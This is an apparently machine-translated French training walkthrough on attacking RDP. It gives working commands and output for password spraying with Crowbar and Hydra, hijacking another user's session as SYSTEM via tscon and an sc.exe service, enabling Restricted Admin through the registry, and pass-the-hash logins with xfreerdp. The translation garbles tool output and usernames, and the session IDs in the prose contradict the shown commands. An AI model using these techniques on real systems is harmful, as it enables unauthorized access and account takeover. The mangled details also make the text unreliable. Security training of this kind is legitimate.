






Attaquer RDP
=============

* * * * *

[Remote Desktop Protocol (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) est un protocole propriétaire développé par Microsoft qui fournit à un utilisateur une interface graphique pour se connecter à un autre ordinateur via une connexion réseau. C'est également l'un des outils d'administration les plus populaires, permettant aux administrateurs système de contrôler de manière centralisée leurs systèmes distants avec les mêmes fonctionnalités que s'ils étaient sur site. En outre, les fournisseurs de services gérés (MSP) utilisent souvent l'outil pour gérer des centaines de réseaux et de systèmes clients. Malheureusement, alors que RDP facilite grandement l'administration à distance des systèmes informatiques distribués, il crée également une autre passerelle pour les attaques.

Par défaut, RDP utilise le port `TCP/3389`. À l'aide de `Nmap`, nous pouvons identifier le service RDP disponible sur l'hôte cible :

```
dsgsec@htb[/htb]# nmap -Pn -p3389 192.168.2.143

Découverte d'hôte désactivée (-Pn). Toutes les adresses seront marquées "up" et les temps de scan seront plus lents.
À partir de Nmap 7.91 ( https://nmap.org ) au 2021-08-25 04:20 BST
Rapport d'analyse Nmap pour 192.168.2.143
L'hôte est actif (latence de 0,00037 s).

SERVICE DE L'ÉTAT DU PORT
3389/tcp ouvrir le serveur ms-wbt

```

* * * * *

Mauvaises configurations
-----------------

Étant donné que RDP prend les informations d'identification de l'utilisateur pour l'authentification, un vecteur d'attaque courant contre le protocole RDP est la devinette de mot de passe. Bien que ce ne soit pas courant, nous pourrions trouver un service RDP sans mot de passe en cas de mauvaise configuration.

Une mise en garde sur la devinette de mot de passe par rapport aux instances Windows est que vous devez tenir compte de la politique de mot de passe du client. Dans de nombreux cas, un compte d'utilisateur sera verrouillé ou désactivé après un certain nombre de tentatives de connexion infructueuses. Dans ce cas, nous pouvons appliquer une technique spécifique de devinette de mot de passe appelée `Password Spraying`. Cette technique fonctionne en essayant un mot de passe unique pour plusieurs noms d'utilisateur avant d'essayer un autre mot de passe, en prenant soin d'éviter le verrouillage du compte.

À l'aide de l'outil [Crowbar](https://github.com/galkan/crowbar) , nous pouvons effectuer une attaque par pulvérisation de mot de passe contre le service RDP. Dans l'exemple ci-dessous, le mot de passe `password123` sera comparé à une liste de noms d'utilisateur dans le fichier `usernames.txt` . L'attaque a trouvé les informations d'identification valides en tant que `administrator` : `password123` sur l'hôte RDP cible.

```
dsgsec@htb[/htb]# cat usernames.txt

racine
test
utilisateur
invité
administrateur
administrateur

```

#### Crowbar - Pulvérisation de mot de passe RDP

Crowbar - Pulvérisation de mot de passe RDP

```
dsgsec@htb[/htb]# crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 DÉBUT
2022-04-07 15:35:50 Pied de biche v0.4.1
2022-04-07 15:35:50 Essayer 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrateur : mot de passe123
2022-04-07 15:35:52 ARRÊTER

```

Nous pouvons également utiliser `Hydra` pour effectuer une attaque par pulvérisation de mot de passe RDP.

#### Hydra - Pulvérisation de mot de passe RDP

Hydra - Pulvérisation de mot de passe RDP

```
dsgsec@htb[/htb]# hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 par van Hauser/THC & David Maciejak - Veuillez ne pas utiliser dans des organisations militaires ou de services secrets ou à des fins illégales (ceci n'est pas contraignant, ces *** ignorent de toute façon les lois et l'éthique).

Hydra (https://github.com/vanhauser-thc/thc-hydra) à partir du 2021-08-25 21:44:52
[AVERTISSEMENT] Les serveurs rdp n'aiment souvent pas beaucoup de connexions, utilisez -t 1 ou -t 4 pour réduire le nombre de connexions parallèles et -W 1 ou -W 3 pour attendre entre les connexions pour permettre au serveur de récupérer
[INFO] Nombre de tâches réduit à 4 (rdp n'aime pas beaucoup les connexions parallèles)
[ATTENTION] le module rdp est expérimental. Veuillez tester, signaler - et si possible, corriger.
[DONNÉES] max 4 tâches par 1 serveur, 4 tâches au total, 8 tentatives de connexion (l:2/p:4), ~2 tentatives par tâche
[DONNÉES] attaquant rdp://192.168.2.147:3389/
[3389][rdp] hôte : 192.168.2.143 login : administrateur mot de passe : password123
1 cible sur 1 complétée avec succès, 1 mot de passe valide trouvé
Hydra (https://github.com/vanhauser-thc/thc-hydra) terminé le 2021-08-25 21:44:56

```

Nous pouvons RDP dans le système cible à l'aide du client `rdesktop` ou du client `xfreerdp` avec des informations d'identification valides.

#### Connexion RDP

Connexion RDP

```
dsgsec@htb[/htb]# rdesktop -u admin -p password123 192.168.2.143

Sélection automatique de la carte du clavier 'en-us' à partir des paramètres régionaux

ATTENTION! Le serveur utilise un certificat de sécurité invalide auquel on ne peut pas faire confiance pour
les raisons identifiées suivantes ;

  1. L'émetteur du certificat n'est pas approuvé par ce système.
      Émetteur : CN=WIN-Q8F2KTAI43A

Passez en revue les informations de certificat suivantes avant de vous fier à son ajout en tant qu'exception.
Si vous ne faites pas confiance au certificat, la tentative de connexion sera abandonnée :

     Objet : CN=WIN-Q8F2KTAI43A
      Émetteur : CN=WIN-Q8F2KTAI43A
  Valable à partir de : mar. 24 août 04:20:17 2021
          À : Mer 23 février 03:20:17 2022

   Empreintes du certificat :

        sha1 : cd43d32dc8e6b4d2804a59383e6ee06fefa6b12a
      sha256 : f11c56744e0ac983ad69e1184a8249a48d0982eeb61ec302504d7ffb95ed6e57

Faites-vous confiance à ce certificat (oui/non) ? Oui
```



Attaques spécifiques au protocole
-------------------------

Imaginons que nous réussissions à accéder à une machine et que nous ayons un compte avec des privilèges d'administrateur local. Si un utilisateur est connecté via RDP à notre machine compromise, nous pouvons détourner la session de bureau à distance de l'utilisateur pour élever nos privilèges et usurper l'identité du compte. Dans un environnement Active Directory, cela pourrait nous amener à reprendre un compte d'administrateur de domaine ou à élargir notre accès au sein du domaine.

#### Piratage de session RDP

Comme illustré dans l'exemple ci-dessous, nous sommes connectés en tant qu'utilisateur `juurena` (UserID = 2) qui dispose des privilèges `Administrator` . Notre objectif est de détourner l'utilisateur `lewen` (ID utilisateur = 4), qui est également connecté via RDP.



Pour réussir à usurper l'identité d'un utilisateur sans son mot de passe, nous devons disposer des privilèges `SYSTEM` et utiliser Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands /tscon) binaire qui permet aux utilisateurs de se connecter à une autre session de bureau. Cela fonctionne en spécifiant quel `ID DE SESSION` (`4` pour la session `lewen` dans notre exemple) nous aimerions nous connecter à quel nom de session (`rdp-tcp#13`, qui est notre session actuelle). Ainsi, par exemple, la commande suivante ouvrira une nouvelle console en tant que `SESSION_ID` spécifié dans notre session RDP actuelle :

Détournement de session RDP

```
C:\htb> tscon #{TARGET_SESSION_ID} /dest :#{OUR_SESSION_NAME}

```

Si nous avons des privilèges d'administrateur local, nous pouvons utiliser plusieurs méthodes pour obtenir les privilèges `SYSTEM` , telles que [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) ou [Mimikatz]( https://github.com/gentilkiwi/mimikatz). Une astuce simple consiste à créer un service Windows qui, par défaut, s'exécutera en tant que `Système local` et exécutera n'importe quel fichier binaire avec les privilèges `SYSTEM` . Nous utiliserons [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binaire. Tout d'abord, nous spécifions le nom du service (`sessionhijack`) et le `binpath`, qui est la commande que nous voulons exécuter. Une fois que nous avons exécuté la commande suivante, un service nommé `sessionhijack` sera créé.

Détournement de session RDP
```
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"

[SC] CreateService SUCCESS
```



Pour exécuter la commande, nous pouvons démarrer le service `sessionhijack`  :

Détournement de session RDP

```
C:\htb> net start sessionhijack

```

Une fois le service démarré, un nouveau terminal avec la session utilisateur `lewen` apparaîtra. Avec ce nouveau compte, nous pouvons essayer de découvrir quel type de privilèges il a sur le réseau, et peut-être aurons-nous de la chance, et l'utilisateur est membre du groupe Help Desk avec des droits d'administrateur sur de nombreux hôtes ou même un administrateur de domaine .



RDP Pass-the-Hash (PtH)
------------------------

Nous pouvons souhaiter accéder à des applications ou à des logiciels installés sur le système Windows d'un utilisateur qui ne sont disponibles qu'avec un accès à l'interface graphique lors d'un test d'intrusion. Si nous avons des informations d'identification en clair pour l'utilisateur cible, cela ne posera aucun problème pour RDP dans le système. Cependant, que se passe-t-il si nous n'avons que le hachage NT de l'utilisateur obtenu à partir d'une attaque de vidage d'informations d'identification telle que la base de données [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) et que nous ne pouvons pas déchiffrer le hachage pour révéler le mot de passe en clair ? Dans certains cas, nous pouvons effectuer une attaque RDP PtH pour obtenir un accès graphique au système cible à l'aide d'outils tels que `xfreerdp`.

Il y a quelques mises en garde à cette attaque :

- Le "mode administrateur restreint", qui est désactivé par défaut, doit être activé sur l'hôte cible ; sinon, nous serons invités avec l'erreur suivante :



Cela peut être activé en ajoutant une nouvelle clé de registre DisableRestrictedAdmin (REG_DWORD) sous HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa. Cela peut être fait en utilisant la commande suivante :
```
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Une fois la clé de registre ajoutée, nous pouvons utiliser `xfreerdp` avec l'option `/pth` pour obtenir un accès RDP :

Détournement de session RDP

```
dsgsec@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex réinitialisant l'état d'erreur
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - chargement de channelEx rdpdr
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - chargement de channelEx rdpsnd
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - chargement de channelEx cliprdr
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - détection automatique des primitives, en utilisant optimisé
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex état d'erreur de réinitialisation
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex réinitialisation de l'état d'erreur
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Échec de la vérification du certificat 'certificat auto-signé (18)' à la position de pile 0
[09:24:11:464] [1668:1669] [AVERTISSEMENT][com.freerdp.crypto] - CN = dc-01.superstore.xyz
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - ProductMajorVersion : 6
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - ProductMinorVersion : 1
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - ProductBuild : 7601
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - Réservé : 0x000000
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - NTLMRevisionCurrent : 0x0F
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negociationFlags "0xE2898235"

<SNIP>

```

Si cela fonctionne, nous serons désormais connectés via RDP en tant qu'utilisateur cible sans connaître leur mot de passe en clair.



